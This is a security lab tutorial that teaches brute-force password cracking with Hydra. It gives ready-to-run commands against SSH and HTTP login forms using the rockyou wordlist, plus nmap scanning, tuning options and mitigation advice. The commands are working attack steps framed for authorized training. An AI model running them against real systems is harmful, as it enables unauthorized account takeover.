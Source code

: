 ```yaml
---
title: Password Cracking with Hydra
date: 2024-05-12 08:01:35 +0300
subtitle: Product Design
image: '/images/project-2.jpg'
---
```

# Lab 4: Password Cracking with Hydra

## **Objective**
Learn how to use **Hydra**, a brute-force password-cracking tool, to test the strength of login credentials. This lab demonstrates the importance of strong password policies and how attackers exploit weak passwords.

---

## **Prerequisites**
1. **Kali Linux or Any Linux Distro with Hydra Installed**:
   - Check if Hydra is installed:
     ```bash
     hydra -h
     ```
   - Install it if necessary:
     ```bash
     sudo apt update && sudo apt install hydra
     ```

2. **Target System**:
   - Use a controlled environment such as a test web server, SSH service, or FTP server where you have permission to test.
   - **Insight**: Unauthorized use of Hydra is illegal and unethical.

3. **Wordlist**:
   - A list of potential passwords for the attack.
   - **Tip**: Kali Linux includes wordlists, such as `/usr/share/wordlists/rockyou.txt`. Ensure it is extracted first:
     ```bash
     gunzip /usr/share/wordlists/rockyou.txt.gz
     ```

---

## **Step 1: Identify Target Service**
1. Determine the service and protocol you want to test (e.g., HTTP, SSH, FTP).
2. Verify the service is running on the target system.
   - Use Nmap to identify open ports and services:
     ```bash
     nmap -sV <target_ip>
     ```

---

## **Step 2: Preparing Hydra**
Hydra requires the following:
- **Target IP or Hostname**: The system you are testing.
- **Protocol**: The service you are targeting (e.g., ssh, ftp, http).
- **Username**: The account to test or a list of usernames.
- **Password List**: A wordlist containing potential passwords.

### Example Setup:
- Target: `192.168.1.100`
- Protocol: `ssh`
- Username: `admin`
- Password List: `/usr/share/wordlists/rockyou.txt`

---

## **Step 3: Basic Hydra Command**
Run a brute-force attack against the SSH service:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
```
- **`-l admin`**: Specifies a single username (`admin`).
- **`-P /usr/share/wordlists/rockyou.txt`**: Points to the password wordlist.
- **`ssh://192.168.1.100`**: Specifies the target protocol and IP address.

---

## **Step 4: Advanced Hydra Options**
1. **Testing Multiple Usernames**:
   - Use a username list instead of a single username:
     ```bash
     hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
     ```

2. **Limiting Connection Attempts**:
   - Reduce the number of simultaneous connections to avoid crashing the target service:
     ```bash
     hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.1.100
     ```
   - **`-t 4`**: Limits to 4 parallel tasks (default is 16).

3. **Using HTTP POST Forms**:
   - Target login forms by specifying the POST request structure:
     ```bash
     hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form \
     "/login:username=^USER^&password=^PASS^:F=Invalid login"
     ```
   - Replace `/login` with the form's action URL and `F=Invalid login` with the failure message.

4. **Saving Results**:
   - Output results to a file for later review:
     ```bash
     hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100 -o results.txt
     ```

---

## **Step 5: Analyzing Results**
1. Successful credentials will appear in the terminal output or saved file:
   ```
   [22][ssh] host: 192.168.1.100   login: admin   password: password123
   ```
2. Document any findings and compare against the target’s password policy.

---

## **Step 6: Mitigation Strategies**
1. Enforce strong password policies:
   - Use long, complex passwords.
   - Implement multi-factor authentication (MFA).

2. Limit login attempts:
   - Configure services to block IPs after a set number of failed attempts.

3. Monitor logs:
   - Regularly review login logs for suspicious activity.

4. Use encryption:
   - Ensure services like SSH are configured with strong encryption algorithms.

---

## **Additional Tips and Insights**
1. **Legal Considerations**:
   - Only use Hydra in environments where you have explicit permission to test.
   - **Insight**: Unauthorized testing can lead to legal and ethical violations.

2. **Ethical Hacking**:
   - Use tools like Hydra responsibly to identify and mitigate security risks, not exploit them.

3. **Practice in Controlled Environments**:
   - Set up a lab with vulnerable systems to test and refine your skills safely.

4. **Explore Hydra Modules**:
   - Hydra supports a variety of protocols (e.g., SMB, VNC, Telnet). Experiment to learn their specific options and behaviors.

---

## **Key Takeaways**
1. Hydra is a versatile tool for testing the strength of login credentials.
2. Strong password policies and additional security measures can significantly reduce brute-force attack risks.
3. Ethical use and proper authorization are critical when performing password-cracking activities.
